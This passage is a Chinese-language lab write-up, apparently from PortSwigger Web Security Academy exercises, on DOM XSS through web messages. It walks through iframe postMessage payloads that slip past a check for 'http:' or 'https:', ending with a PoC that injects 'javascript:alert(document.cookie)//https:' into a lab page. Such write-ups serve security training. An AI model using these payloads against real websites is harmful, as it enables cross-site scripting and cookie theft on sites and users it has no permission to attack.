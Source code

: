 这里检查url里面是否存在`http:`或者`https:`，如果存在其中一个或者两个都存在，则将`url`赋值给`location.href`。

我一开始用`http://qwerty`去尝试，试图找出这个location作用在哪里，然后发现被http被禁止了。

```html
<iframe src="https://ac1e1f361e12719b80c90747000c00e8.web-security-academy.net/" onload="this.contentWindow.postMessage('http://qwerty','*')">
```

![2.1](DOM-burp.assets/2.1.png)

换成`https`：

```html
<iframe src="https://ac1e1f361e12719b80c90747000c00e8.web-security-academy.net/" onload="this.contentWindow.postMessage('https://qwerty','*')">
```

![2.2](DOM-burp.assets/2.2.png)

换成`https`之后发现跳转了。然而我还是没有找到这个[`location`属性](https://www.runoob.com/w3cnote/js-redirect-to-another-webpage.html)在哪，推测是系统变量。

去搜了一下，这个类似`<a href="location.href">`标签。

那只要将`location.href`改成类似`javascript:alert(1)//https:`就可以了。

POC:

```html
<iframe src="https://ac1e1f361e12719b80c90747000c00e8.web-security-academy.net/" onload="this.contentWindow.postMessage('javascript:alert(document.cookie)//https:','*')">
```

#### 3. DOM XSS using web messages and `JSON.parse`
